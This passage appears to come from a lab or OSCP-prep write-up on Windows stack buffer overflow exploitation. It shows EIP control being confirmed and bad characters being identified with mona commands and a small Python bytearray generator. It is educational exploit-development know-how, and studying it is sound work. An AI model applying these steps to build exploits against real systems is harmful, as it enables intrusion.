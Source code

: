 
The EIP is now 41414141 and it is exacatly what we wanted! Reminder: "A" in ASCII is 41. So we controll the EIP register.


## **3. Bad chars**

We are going to generate a bytearray with mona, at start we should exclude "\x00" (null byte) by default.

    !mona bytearray -b "\x00"

The results in .bin file are stored in default working directory. Now we will generate bad chars with simple python script called *GenerateBadChars.py*

*GenerateBadChars.py*:
```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Now compare the content of ESP address with bytearray.bin with following mona command:

    !mona compare -f C:\mona\oscp\bytearray.bin -a 01AEFA30

Now update the *exploit.py* and replace *payload* variable with output generated by *GenerateBadChars.py*. Run the *exploit.py*.


![](p/3.png)


